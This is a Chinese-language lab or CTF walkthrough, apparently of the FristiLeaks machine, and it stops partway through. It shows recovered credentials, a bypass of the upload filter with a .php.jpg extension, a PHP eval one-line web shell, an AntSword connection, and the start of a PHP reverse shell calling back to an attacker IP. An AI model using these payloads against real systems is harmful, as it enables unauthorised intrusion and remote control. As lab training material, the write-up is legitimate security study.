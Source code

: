 [BASE64转图片 - 站长工具 - 极速数据](https://tool.jisuapi.com/base642pic.html)

![image-20210926140146500](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261401668.png)

> 分析的用户名和密码

- eezeepz   
- keKkeKKeKKeKkEkkEk

## 登录后是文件上传

![image-20210926140650959](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261406068.png)



## 测试发现使用.php.jpg可以上传成功并执行

>  果断传一个一句话shell

```php
<?php @eval($_POST["1"]);?>
```

![image-20210926141209020](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261412121.png)

## 使用中国蚁剑链接

```
http://192.168.100.155/fristi/uploads/1.php.jpg
```

![image-20210926141327593](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261413758.png)

## 只能读取部分文件

![image-20210926143736677](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261437817.png)

## 用蚁剑虽然能够拿到shell,但还需要提权

![image-20210926143631404](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261436540.png)

### 蚁剑的终端并不能提权

![image-20210926144823127](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261448248.png)

## nc方式获取反弹shell

- Kali上写个PHP反弹shell的脚本；并开启Apache服务;存成shell.txt

  ```
  <?php $sock=fsockopen("192.168.100.143",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
  ```
